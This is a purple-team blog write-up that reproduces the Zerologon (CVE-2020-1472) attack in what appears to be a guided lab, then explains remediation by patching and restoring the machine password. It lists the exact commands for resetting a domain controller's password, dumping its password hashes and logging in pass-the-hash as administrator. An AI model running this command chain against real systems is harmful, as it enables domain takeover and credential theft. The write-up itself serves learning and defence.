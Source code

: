 # CVE - 2020–1472 (Zerologon Vulnerability)-Exploitation & Remediation

**NOTE**: This is my first vulnerability-related writeup and I have tried to write and explain in layman terms. There may be knowledge gaps in between, which I am trying my hardest to cover and understand

**I have tried to reproduce the vulnerability in this blog entry, while trying to understand it's severity and impact**

## **Section 1 — Exploiting Zerologon Vulnerability(CVE 2020–1472)**

### **About the Vulnerability**

Netlogon is a service that runs on the Domain Controller. This service is responsible for authenticating user logins — effectively verifying the user is who they claim to be. As this function is one of the core functions of a Domain Controller, the Netlogon service cannot be stopped or firewalled off from networks of domain-joined computers.

* CVSS Score — 10
* Attack Complexity — Low
* Privileges Required — Low
* Vulnerability Found — July 2020​

![](https://cdn-images-1.medium.com/max/1000/1\*zdJeAc4HdVPaL8jvpmfpWw.png)

### E**xploitable Point**

The Netlogon RPC service, used for computer and user authentication in Windows, also allows a computer to update its computer password within the domain. For several historical reasons, this service does not use standard authentication protocols to authenticate the computer. The vulnerability exists within the non-standard method used to authenticate.

Twitter thread providing a nice walkthrough — [https://twitter.com/\_dirkjan/status/1306280553281449985](https://twitter.com/\_dirkjan/status/1306280553281449985)

## E**xploitation Walkthrough**

> What do you need?&#x20;
>
> Impacket — to capture password hashes and dump them&#x20;
>
> Windows 10 OS (on which the vulnerable service exists)&#x20;
>
> Windows 10 VM — to perform the exploit on RangeForce’s&#x20;
>
> ZeroLogon Vulnerability Lab (Guided Mode)

First, let’s clone the [impacket](https://github.com/SecureAuthCorp/impacket) repository from Github&#x20;

Step to install:-

> `git clone` [`https://github.com/SecureAuthCorp/impacket.git`](https://github.com/SecureAuthCorp/impacket.git)``

Now, let’s copy the exploit too from Github \<cve-2020–1472-exploit.py>

Credits to [dirkjanm](https://github.com/dirkjanm).

> [https://github.com/dirkjanm/CVE-2020-1472/blob/master/cve-2020-1472-exploit.py](https://github.com/dirkjanm/CVE-2020-1472/blob/master/cve-2020-1472-exploit.py)

Export the exploit to /impacket/examples/CVE-2020–1472/

Now, let’s switch to this directory

By now, we have identified the following details about the vulnerable service:-

> NetBIOS computer name: DC IP address: 192.168.0.4

> Syntax of exploit command:- ./cve-2020–1472-exploit.py -n \<NetBIOS computer name> -t \<IP address>

Now to run the script and exploit

> `./cve-2020–1472-exploit.py -n DC -t 192.168.0.4​`

![What does this exploit do?](https://cdn-images-1.medium.com/max/1000/1\*yq9qEq8dTnIFQwn39Wt-Fw.png)

### **What does this exploit do?**

It resets the Domain Controller’s account password to an empty string(easy login with a spacebar)

The gist: Your Domain Controller account’s password is a blank string

**Next objective-**dump password hashes from the Domain Controller

> Domain Controller name NetBios Name IP Address of vulnerable host

We make use of the secretsdump.py module from Impacket to perform this task

> Password Dump command syntax- python3 secretsdump.py -no-pass -just dc\<Domain/NETBIOS\_NAME\\\[email protected]>

(This command does not work with the simple execution command ./)

Filling in the blanks:-

> `python3 secretsdump.py -no-pass -just-dc CONTOSO.AZURE/DC\$@192.168.0.4`

![This leads to the dumping of around 60 password](https://cdn-images-1.medium.com/max/1000/1\*t2iS-\_QDxa2kfwo3JlOdBw.png)

&#x20;This leads to the dumping of around 60 password hashes:-

​

![](https://cdn-images-1.medium.com/max/1000/1\*GZye3Qhobt6Qf\_7HQruMxQ.png)

​**Next objective** — Logging onto the account of ContosoAdmin (Domain Controller admin’s account) — using the account’s dumped hash

Scrolling through the dumped list, we find the appropriate entry:-​

![](https://cdn-images-1.medium.com/max/1000/1\*KpuYcdLqTSeE6BvaneTOOQ.png)

Logging on to the server, using the wmiexec.py module:-

> `python3 wmiexec.py -hashes aad3b435b51404eeaad3b435b51404ee:a2bd759faf686d052f5f7c8337a2ff51 CONTOSO.AZURE/DC\$@192.168.0.4`

​We are in!

![](https://cdn-images-1.medium.com/max/1000/1\*1Ai0FvKkDd-jXyAVQLsHzg.png)

## Se**ction 2 — Remediation from the Vulnerability**

**How?**

* Manually restoring your password (or)
* Update and install the August 2020 & February 2021 Patch Tuesday release for the same (patches released in two phases)

### **Manual Password Restore — How does it work?**

As you exploit the vulnerability, the password hash is being erased and replaced with a blank string in the SAM file, from where your computer cross-checks passwords as a user logs in

Using the same methodology, we copy your compromised password (blank space in this case) from the SAM hive to the Domain Controller of the exploited machine. Further, copy it to your Kali VM and then delete it from the Domain Controller

Which we achieve from the following steps:-

​

![](https://cdn-images-1.medium.com/max/1000/1\*GHrg-fhyBO30lYWDRwwhWw.png)

​Now exiting the Windows machine, using exit- to the Kali machine

The next task is to parse the obtained SAM file, from the Domain Controller

> secretsdump.py -sam sam.save -system system.save -security security.save LOCAL Why parse? — To see where accounts are mapped to and to gain other information​![](https://cdn-images-1.medium.com/max/750/1\*q8r1dbLK4yGkr2R2QhjSAQ.png)![](https://cdn-images-1.medium.com/max/1000/1\*ZBl3hRpBypYvSE4FreGP-A.png)

> Recovered password hash — 89ed2eb25e25770b7dd850e797ef8c7b49cc4d793ea50f9db33fe91cde5b97c20b8aa582a3acd371618e7f7ed5ad9ee87df1d073641c6718cb63ed7409711480

Now to place the final piece of the jigsaw — restoring the original password. For that, we have a customized script named — reinstall\_original\_pw.py

> Syntax — reinstall\_original\_pw.py \<DC\_NETBIOS\_NAME> \<DC\_IP\_ADDR> \<ORIG\_NT\_HASH>

Filling in the blanks here,

> `./reinstall_original_pw.py DC 192.168.0.4 89ed2eb25e25770b7dd850e797ef8c7b49cc4d793ea50f9db33fe91cde5b97c20b8aa582a3acd371618e7f7ed5ad9ee87df1d073641c6718cb63ed7409711480`

## Conclusion

This is an easy vulnerability to exploit, with less complexity, considering that we are still dependant on IT Systems to perform administrative tasks. This may be disputed, but 100% security may be a myth unless drastic action is taken to respond and patch even the slightest of issues

Thank you for the time taken to devour this purple team blog entry.

My audience has a voice. Feel free to reach me out on my socials (links are on top of this page), in case of any queries to be addressed. Let your opinion about this write-up be known by selecting any one of the emojis below!
